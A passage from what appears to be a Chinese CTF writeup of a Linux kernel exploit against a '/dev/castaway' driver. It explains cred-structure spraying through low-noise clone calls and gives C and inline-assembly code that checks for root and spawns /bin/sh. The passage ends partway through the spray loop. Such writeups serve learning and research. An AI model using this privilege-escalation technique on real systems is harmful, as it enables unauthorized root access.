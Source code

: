 


接下来进行第二步，释放奇数页，然后喷 cred。

但是我们需要注意噪声问题。fork 会引入大量噪声，因此，我们可以只通过 clone 系统调用，从而减少噪声。使用 `CLONE_FILES | CLONE_FS | CLONE_VM | CLONE_SIGHAND` 作为 FLAG，这样每一次就只会有 4 个 `order-0` 的分配， 对于后面的操作，我们也尽可能只使用汇编，尽量减少噪声。

在这里，我们将每一个 clone 引到 check_and_wait 函数里，它在 rootfd 接到消息后就检查是不是 root，如果不是就进入睡眠。

```c
#define CLONE_FLAGS CLONE_FILES | CLONE_FS | CLONE_VM | CLONE_SIGHAND

int rootfd[2];
struct timespec timer = {.tv_sec = 1000000000, .tv_nsec = 0};
char throwaway;
char root[] = "root\n";
char binsh[] = "/bin/sh\x00";
char *args[] = {"/bin/sh", NULL};

__attribute__((naked)) void check_and_wait()
{
    asm(
        "lea rax, [rootfd];"
        "mov edi, dword ptr [rax];"
        "lea rsi, [throwaway];"
        "mov rdx, 1;"
        "xor rax, rax;"
        "syscall;"
        "mov rax, 102;"
        "syscall;"
        "cmp rax, 0;"
        "jne finish;"
        "mov rdi, 1;"
        "lea rsi, [root];"
        "mov rdx, 5;"
        "mov rax, 1;"
        "syscall;"
        "lea rdi, [binsh];"
        "lea rsi, [args];"
        "xor rdx, rdx;"
        "mov rax, 59;"
        "syscall;"
        "finish:"
        "lea rdi, [timer];"
        "xor rsi, rsi;"
        "mov rax, 35;"
        "syscall;"
        "ret;");
}

int main() {

    bind_cpu(0);
    int fd = open("/dev/castaway", O_RDWR);
    if (fd < 0) {
        printf("Error opening device\n");
        return 1;
    }

    pipe(sprayfd_child);
    pipe(sprayfd_parent);
    pipe(rootfd);

    for (int i = 0; i < CRED_JAR_SPARY; i++) {
        pid_t pid = fork();
```